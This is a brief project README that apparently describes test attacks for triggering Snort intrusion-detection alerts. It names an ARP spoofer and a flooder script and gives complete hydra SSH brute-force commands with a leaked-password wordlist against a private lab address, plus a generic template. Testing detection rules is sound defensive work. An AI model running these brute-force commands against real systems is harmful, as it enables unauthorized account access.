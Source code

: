 # src
Directory containing the code used for the test attacks used for triggering the snort alerts. 

The structure of the project is the following one.

 - **Arp-Spoofer**: 

 - **flooder.py**: 
 
 - **ssh brute force**: The tool used is hydra. The test command used is the following one.
 
```
./hydra -s 22 -v -V -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s 22 -v -V -w 4 -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s <port> -v -V -w <waittime> -l <username> -P <path to password file> -t <number of threads> <ip> <protocol>
```

